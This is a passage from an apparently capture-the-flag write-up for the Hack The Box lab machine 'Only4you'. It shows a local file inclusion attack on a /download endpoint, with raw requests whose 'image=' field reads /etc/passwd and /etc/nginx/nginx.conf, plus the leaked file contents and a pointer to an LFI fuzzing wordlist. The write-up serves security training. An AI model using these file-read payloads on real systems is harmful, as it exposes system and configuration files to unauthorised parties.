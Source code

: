 
We can send a request with Burp to view `/etc/passwd`.

```
POST /download HTTP/1.1
Host: beta.only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://beta.only4you.htb
Connection: close
Referer: http://beta.only4you.htb/list
Upgrade-Insecure-Requests: 1

image=/etc/passwd
```

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 22 Apr 2023 20:06:49 GMT
Content-Type: application/octet-stream

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:996:996::/var/log/laurel:/bin/false
```

We can use Burp intruder in combination with [Seclist's LFI Fuzzing](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt). We have an interesting hit for `/etc/nginx/nginx.conf`.

### nginx.conf

```bash
image=/etc/nginx/nginx.conf
```

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 24 Apr 2023 07:34:04 GMT
Content-Type: application/octet-stream
Content-Length: 1490
Connection: close
Content-Disposition: attachment; filename=nginx.conf

user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
	worker_connections 768;
	# multi_accept on;
}
```